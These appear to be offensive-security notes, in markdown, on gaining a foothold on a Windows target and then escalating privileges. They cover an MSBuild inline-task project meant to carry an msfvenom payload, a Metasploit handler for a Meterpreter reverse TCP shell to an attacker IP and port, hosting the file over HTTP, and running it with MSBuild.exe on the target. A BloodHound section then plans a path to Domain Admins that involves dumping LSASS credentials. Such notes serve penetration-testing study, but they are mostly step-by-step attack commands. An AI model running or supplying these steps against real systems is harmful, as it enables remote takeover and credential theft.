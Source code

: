 Add the payload to a MSBuild XML file (see below). Then, get the XML file onto the target. 
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Demo">
   <MSBuildShell/>
  </Target>
   <UsingTask
    TaskName="Demo"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
    <!-- Double-check the path above this line! -->
    <Task>	
      <Code Type="Class" Language="cs">
      <!-- Payload generated by MSFVenom -->
      </Code>
    </Task>
  </UsingTask>
</Project>
```

Start a handler. 
```bash
# attacker: terminal 1
sudo msfconsole 
use exploit/multi/handler
set LHOST 192.168.1.23
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
options # check your exploit settings
run
```

Host the exploit so the target can download it. 
```bash
# attacker Terminal 2:
sudo python3 -m http.server 8000
```

Get the target to execute the exploit. 
```bash
# target Terminal 1:
C:\Windows\Microsoft.NET\path\to\MSBuild.exe C:\rshell.xml
```

# Privilege Escalation

### Bloodhound
BloodHound is a tool for reviewing privilege escalation paths within Active Directory and Entra ID environments. The graphs shown are generated using data collected by SharpHound and AzureHound. 
```bash
cd Bloodhound-win32-x64/
BloodHound.exe
# login (neo4j:BloodHound) 
# use one of the options below to discover a path to privesc
```
Option 1: use a pre-built query. 
```bash
# enter the name of an entity in the search bar (top-left) 
# right-click entity and select "Mark User as Owned"
# click "Queries" > "Shortest Paths to Domain Admins from Owned Principals"
# pick a Domain Admins group
# review path to privesc
# privesc will require connecting to machines and dumping creds from LSASS
```
Option 2: specify a target node. 
```bash
```